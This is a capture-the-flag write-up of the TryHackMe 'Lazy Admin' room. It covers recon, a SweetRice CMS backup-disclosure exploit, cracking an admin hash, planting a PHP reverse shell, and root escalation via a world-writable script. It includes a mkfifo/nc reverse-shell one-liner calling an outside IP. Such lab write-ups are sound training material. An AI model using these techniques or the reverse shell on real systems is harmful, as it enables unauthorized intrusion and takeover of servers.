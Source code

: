 # LazyAdmin

## LazyAdmin-THM

***

## Info

| Name         | Lazy Admin                                       |
| ------------ | ------------------------------------------------ |
| Room link    | https://tryhackme.com/room/lazyadmin             |
| Difficulty   | Easy                                             |
| Created by   | [MrSeth6797](https://tryhackme.com/p/MrSeth6797) |
| solving date | May 18th 2022                                    |
| ----         |                                                  |

<details>

<summary>Recon (Click Me)</summary>

* after starting the machine `export target=10.10.244.50`

### nmap

*   start initial nmap scan

    ```
    # Nmap 7.92 scan initiated Wed May 18 02:32:34 2022 as: nmap -Pn -vv -sS -sV -oN lazyadmin/initial 10.10.244.50
    Increasing send delay for 10.10.244.50 from 0 to 5 due to 248 out of 826 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 5 to 10 due to 11 out of 15 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 10 to 20 due to 11 out of 13 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 20 to 40 due to 11 out of 13 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 40 to 80 due to 11 out of 14 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 80 to 160 due to 11 out of 12 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 160 to 320 due to 11 out of 11 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 320 to 640 due to 11 out of 11 dropped probes since last increase.
    Increasing send delay for 10.10.244.50 from 640 to 1000 due to 11 out of 11 dropped probes since last increase.
    Nmap scan report for 10.10.244.50
    Host is up, received user-set (0.10s latency).
    Scanned at 2022-05-18 02:32:35 EDT for 110s
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE REASON         VERSION
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed May 18 02:34:25 2022 -- 1 IP address (1 host up) scanned in 110.45 seconds
    ```
* 22 and 80 are open
*   Let’s Navigate to the website, it’s apache2 webserver

    <img src="images/Untitled.png" alt="Untitled" data-size="original">

***

### Website Content Discovery

*   view robots.txt

    * there is no robots.txt file,

    <img src="images/Untitled 1.png" alt="Untitled" data-size="original">
* let’s fuzz this website using ffuf
* `ffuf -w /mnt/hgfs/Pentesting\ Share/SecLists-master/Discovery/Web-Content/directory-list-2.3-small.txt -u http://$target/FUZZ`
  *   /content found, let’s view this page

      <img src="images/Untitled 2.png" alt="Untitled" data-size="original">

      * it’s running SweetRice CMS
*   searching for any exploit with `searchsploit`

    <img src="images/Untitled 3.png" alt="Untitled" data-size="original">

    `SweetRice 1.5.1 - Backup Disclosure | php/webapps/40718.txt`

    *   exploit content:

        ```
        Title: SweetRice 1.5.1 - Backup Disclosure
        Application: SweetRice
        Versions Affected: 1.5.1
        Vendor URL: http://www.basic-cms.org/
        Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
        Discovered by: Ashiyane Digital Security Team
        Tested on: Windows 10
        Bugs: Backup Disclosure
        Date: 16-Sept-2016

        Proof of Concept :

        You can access to all mysql backup and download them from this directory.
        http://localhost/inc/mysql_backup

        and can access to website files backup from:
        http://localhost/SweetRice-transfer.zip
        ```
* let’s fuzz /content directory
* `ffuf -w /mnt/hgfs/Pentesting\ Share/SecLists-master/Discovery/Web-Content/directory-list-2.3-small.txt -u http://$target/content/FUZZ`
* images, js, inc, as, themes, attachment found
*   let’s try the exploit with /content/inc directory

    <img src="images/Untitled 4.png" alt="Untitled" data-size="original">
* download mysql backup in [http://10.10.244.50/content/inc/mysql\_backup/mysql\_bakup\_20191129023059-1.5.1.sql](http://10.10.244.50/content/inc/mysql\_backup/mysql\_bakup\_20191129023059-1.5.1.sql)
*   backup content

    ```
    <?php return array (
      0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
      1 => 'CREATE TABLE `%--%_attachment` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `post_id` int(10) NOT NULL,
      `file_name` varchar(255) NOT NULL,
      `date` int(10) NOT NULL,
      `downloads` int(10) NOT NULL,
      PRIMARY KEY (`id`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      2 => 'DROP TABLE IF EXISTS `%--%_category`;',
      3 => 'CREATE TABLE `%--%_category` (
      `id` int(4) NOT NULL AUTO_INCREMENT,
      `name` varchar(255) NOT NULL,
      `link` varchar(128) NOT NULL,
      `title` text NOT NULL,
      `description` varchar(255) NOT NULL,
      `keyword` varchar(255) NOT NULL,
      `sort_word` text NOT NULL,
      `parent_id` int(10) NOT NULL DEFAULT \'0\',
      `template` varchar(60) NOT NULL,
      PRIMARY KEY (`id`),
      UNIQUE KEY `link` (`link`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      4 => 'DROP TABLE IF EXISTS `%--%_comment`;',
      5 => 'CREATE TABLE `%--%_comment` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `name` varchar(60) NOT NULL DEFAULT \'\',
      `email` varchar(255) NOT NULL DEFAULT \'\',
      `website` varchar(255) NOT NULL,
      `info` text NOT NULL,
      `post_id` int(10) NOT NULL DEFAULT \'0\',
      `post_name` varchar(255) NOT NULL,
      `post_cat` varchar(128) NOT NULL,
      `post_slug` varchar(128) NOT NULL,
      `date` int(10) NOT NULL DEFAULT \'0\',
      `ip` varchar(39) NOT NULL DEFAULT \'\',
      `reply_date` int(10) NOT NULL DEFAULT \'0\',
      PRIMARY KEY (`id`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      6 => 'DROP TABLE IF EXISTS `%--%_item_data`;',
      7 => 'CREATE TABLE `%--%_item_data` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `item_id` int(10) NOT NULL,
      `item_type` varchar(255) NOT NULL,
      `data_type` varchar(20) NOT NULL,
      `name` varchar(255) NOT NULL,
      `value` text NOT NULL,
      PRIMARY KEY (`id`),
      KEY `item_id` (`item_id`),
      KEY `item_type` (`item_type`),
      KEY `name` (`name`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      8 => 'DROP TABLE IF EXISTS `%--%_item_plugin`;',
      9 => 'CREATE TABLE `%--%_item_plugin` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `item_id` int(10) NOT NULL,
      `item_type` varchar(255) NOT NULL,
      `plugin` varchar(255) NOT NULL,
      PRIMARY KEY (`id`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      10 => 'DROP TABLE IF EXISTS `%--%_links`;',
      11 => 'CREATE TABLE `%--%_links` (
      `lid` int(10) NOT NULL AUTO_INCREMENT,
      `request` text NOT NULL,
      `url` text NOT NULL,
      `plugin` varchar(255) NOT NULL,
      PRIMARY KEY (`lid`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
      12 => 'DROP TABLE IF EXISTS `%--%_options`;',
      13 => 'CREATE TABLE `%--%_options` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `name` varchar(255) NOT NULL,
      `content` mediumtext NOT NULL,
      `date` int(10) NOT NULL,
      PRIMARY KEY (`id`),
      UNIQUE KEY `name` (`name`)
    ) ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
      14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
      15 => 'INSERT INTO `%--%_options` VALUES(\'2\',\'categories\',\'\',\'1575023409\');',
      16 => 'INSERT INTO `%--%_options` VALUES(\'3\',\'links\',\'\',\'1575023409\');',
      17 => 'DROP TABLE IF EXISTS `%--%_posts`;',
      18 => 'CREATE TABLE `%--%_posts` (
      `id` int(10) NOT NULL AUTO_INCREMENT,
      `name` varchar(255) NOT NULL,
      `title` varchar(255) NOT NULL,
      `body` longtext NOT NULL,
      `keyword` varchar(255) NOT NULL DEFAULT \'\',
      `tags` text NOT NULL,
      `description` varchar(255) NOT NULL DEFAULT \'\',
      `sys_name` varchar(128) NOT NULL,
      `date` int(10) NOT NULL DEFAULT \'0\',
      `category` int(10) NOT NULL DEFAULT \'0\',
      `in_blog` tinyint(1) NOT NULL,
      `views` int(10) NOT NULL,
      `allow_comment` tinyint(1) NOT NULL DEFAULT \'1\',
      `template` varchar(60) NOT NULL,
      PRIMARY KEY (`id`),
      UNIQUE KEY `sys_name` (`sys_name`),
      KEY `date` (`date`)
    ) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
    );?>
    ```
* "passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\” I think it’s a hashed password, so let’s crack it using hashes.com

***

</details>

<details>

<summary>Gaining Access (Click Me)</summary>

<img src="images/Untitled 5.png" alt="Untitled" data-size="original">

* great, now we have the password for user ‘manager’ and he is admin, let’s navigate to the discovered directories to find admin login page
* images, js, inc, as, themes, attachment, we can find the login page in /content/as
*   try the username and the password we found

    <img src="images/Untitled 6.png" alt="Untitled" data-size="original">

    <img src="images/Untitled 7.png" alt="Untitled" data-size="original">
*   we can see there is ads section and there is ads directory in /content/inc (remember from [here](images.md)), so let’s create an ad with our php reverse shell

    <img src="images/Untitled 8.png" alt="Untitled" data-size="original">
* now we can run the code by navigating to http:///content/inc/ad/juba.php

***

</details>

<details>

<summary>Stabilize the shell (Click Me)</summary>

```bash
$ which python
/usr/bin/python
$ python -c 'from pty import spawn ; spawn("/bin/bash")'
www-data@THM-Chal:/$ export TERM=xterm  
export TERM=xterm
www-data@THM-Chal:/$ ^Z
zsh: suspended  nc -nlvp 9050
                                                                                                                                           
┌──(root💀kali)-[/home/juba]
└─# stty raw -echo ; fg                                                                                                          148 ⨯ 1 ⚙
[1]  + continued  nc -nlvp 9050

www-data@THM-Chal:/$
```

***

</details>

<details>

<summary>User.txt flag</summary>

```bash
www-data@THM-Chal:/$ ls
bin    dev   initrd.img      lost+found  opt   run   srv  usr      vmlinuz.old
boot   etc   initrd.img.old  media   proc  sbin  sys  var
cdrom  home  lib         mnt     root  snap  tmp  vmlinuz
www-data@THM-Chal:/$ cd /home
www-data@THM-Chal:/home$ ls
itguy
www-data@THM-Chal:/home$ cd itguy/
www-data@THM-Chal:/home/itguy$ ls 
Desktop    Downloads  Pictures  Templates  backup.pl         mysql_login.txt
Documents  Music      Public    Videos     examples.desktop  user.txt
www-data@THM-Chal:/home/itguy$ cat user.txt 
THM{63e*****************************}
www-data@THM-Chal:/home/itguy$
```

***

</details>

<details>

<summary>Privilege Escalation</summary>

```bash
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/home/itguy$
```

* Oh !!, he is a very lazy sysad, I can run perl and backup.pl as root with no password
* backup.pl content, if we list the file we will see that there is no write permission for us

```perl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

*   but if we list copy.sh we will see this

    ```perl
    www-data@THM-Chal:/home/itguy$ ls -l /etc/copy.sh 
    -rw-r--rwx 1 root root 97 May 18 11:15 /etc/copy.sh
    ```
*   we can edit copy.sh, we can type a reverse shell inside the file, but for simplicity we will use `bash -p`

    ```bash
    root@THM-Chal:/etc# cat copy.sh 
    whoami
    bash -p
    # rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
    www-data@THM-Chal:/etc$ sudo /usr/bin/perl /home/itguy/backup.pl
    root
    root@THM-Chal:/etc# whoami
    root
    ```

    * Great, we are root
*   get root.txt flag

    ```bash
    root@THM-Chal:/etc# cd 
    root@THM-Chal:~# ls
    root.txt
    root@THM-Chal:~# cat root.txt
    THM{663*****************************}
    ```

***

</details>

***

### I hope you enjoyed the write-up

* [Linkedin](https://www.linkedin.com/in/juba0x00/)
* [Twitter](https://twitter.com/juba0x00/)
* [TryHackMe](https://tryhackme.com/p/Juba0x430x55)
